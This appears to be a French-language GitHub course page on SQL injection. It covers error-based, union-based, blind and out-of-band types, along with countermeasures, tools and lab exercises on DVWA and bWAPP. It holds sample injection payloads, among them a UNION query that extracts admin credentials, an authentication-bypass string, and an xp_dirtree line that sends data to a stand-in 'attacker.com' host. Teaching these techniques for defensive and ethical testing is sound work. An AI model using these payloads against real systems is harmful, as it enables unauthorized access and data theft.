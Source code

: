 
# 💉 Cours sur l'Injection SQL (SQL Injection)

> _Comprendre, détecter et exploiter les vulnérabilités SQL les plus courantes._

---

## 📘 Introduction

Le **SQL Injection** (SQLi) est une vulnérabilité critique qui permet à un attaquant de manipuler les requêtes SQL exécutées par une application. Cela peut entraîner la fuite d'informations sensibles, la modification de données ou même un contrôle total de la base de données.

---

## 🔍 Objectifs du cours

- Comprendre le fonctionnement de SQL
- Identifier les types d'injections SQL
- Apprendre à les exploiter
- Connaître les contremesures

---

## 🧱 Types de SQL Injection

### 1️⃣ In-Band SQL Injection

L'injection est visible directement dans la réponse de la page.

#### a. Error-Based SQLi

- Exploite les messages d’erreur SQL
- Utilise les erreurs pour révéler des informations internes

**Exemple** :
```sql
' AND 1=CONVERT(int, (SELECT @@version))--
```

#### b. Union-Based SQLi

- Utilise `UNION SELECT` pour fusionner des résultats

**Exemple** :
```sql
' UNION SELECT username, password FROM admin--
```

---

### 2️⃣ Inferential (Blind) SQL Injection

L’application ne montre pas d’erreur. L’attaquant déduit les résultats par observation du comportement.

#### a. Boolean-Based

**Exemple** :
```sql
' AND 1=1--  → page normale  
' AND 1=2--  → page blanche ou différente
```

#### b. Time-Based

**Exemple** :
```sql
'; IF (SUBSTRING(@@version,1,1)='5') WAITFOR DELAY '00:00:05'--
```

➡️ Si la réponse prend 5 secondes → condition vraie

---

### 3️⃣ Out-of-Band SQL Injection (OOB)

Utilise un canal externe (ex: DNS, HTTP) pour extraire les données.

**Exemple** :
```sql
'; exec xp_dirtree '\attacker.com\share'--
```

---

## 🧪 Exemple d'application vulnérable

```sql
SELECT * FROM users WHERE username = '$user' AND password = '$pass'
```

Si `$user` = `' OR '1'='1`, la requête devient :

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '$pass'
```

➡️ L'accès est accordé sans authentification.

---

## 🛡️ Contremesures

- ❌ Ne jamais concaténer les entrées utilisateur
- ✅ Utiliser des **requêtes préparées / paramétrées**
- ✅ Utiliser des **ORM sécurisés** (ex: SQLAlchemy, Entity Framework)
- 🔐 Mettre en place un WAF (Web Application Firewall)
- ✅ Limiter les droits SQL de l'application

---

## 🛠️ Outils utiles

| Outil       | Description                         |
|-------------|-------------------------------------|
| sqlmap      | Automatisation complète des attaques |
| Burp Suite  | Interception et tests manuels       |
| sqlninja    | SQLi + Post Exploitation MSSQL      |
| jSQL        | Interface graphique d'injection     |

---

## 🎯 Résumé

| Type         | Détails                           |
|--------------|------------------------------------|
| In-Band      | Résultat visible (erreur, union)   |
| Blind        | Comportement observé               |
| Out-of-Band  | Exfiltration via autre protocole   |

---

## 📚 Pour aller plus loin

- [PayloadAllTheThings – SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection)
- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)

---

## 🧠 Exercice conseillé

- Trouver une application vulnérable (ex: DVWA, bWAPP)
- Tester tous les types d’injection
- Utiliser `sqlmap` pour automatiser
- Écrire un rapport de vulnérabilité

---

> Rédigé avec ❤️ pour les hackers éthiques en formation.
